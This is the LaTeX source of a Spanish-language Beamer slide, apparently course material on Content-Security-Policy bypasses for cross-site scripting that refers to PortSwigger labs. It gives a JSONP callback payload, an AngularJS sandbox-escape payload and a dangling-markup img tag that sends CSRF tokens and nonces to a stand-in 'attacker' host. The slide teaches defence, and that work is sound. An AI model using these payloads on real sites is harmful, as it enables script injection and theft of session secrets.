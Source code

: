 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS con CSP --- bypass técnico}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Content-Security-Policy
  \item Cabecera HTTP que restringe qué scripts puede ejecutar el navegador.
  \item Principal mitigación contra XSS. Puede ser bypasseada.
  \item Bypass con JSONP en dominio de confianza
  \item CSP: script-src 'self' https://api.trusted.com
  \item Si trusted.com expone JSONP: ?callback=alert(1)
  \item \textless{}script src='https://api.trusted.com/data?callback=alert(1)'\textgreater{}
  \item AngularJS sandbox escape + CSP (Lab 53)
  \item CSP bloquea inline scripts pero AngularJS evalúa \{\{\}\} sin \textless{}script\textgreater{}
  \item Escape sin strings:
  \item[] \cmdbox{toString().constructor.prototype.charAt=[].join;\\{}
[1]|orderBy:'toString().constructor.fromCharCode(120,115,115)'}
  \item Dangling markup con CSP estricto (Labs 57-59)
  \item \textless{}img src=\textquotedbl{}https://attacker/?data=
  \item $\rightarrow$ Captura el HTML siguiente hasta la próxima comilla
  \item $\rightarrow$ Exfiltra tokens CSRF, nonces u otra info sensible
  \item CSP con nonces por request + sin unsafe-inline es muy robusto
  \item portswigger.net/web-security/cross-site-scripting/content-security-policy
  \end{itemize}
\end{frame}
\end{document}
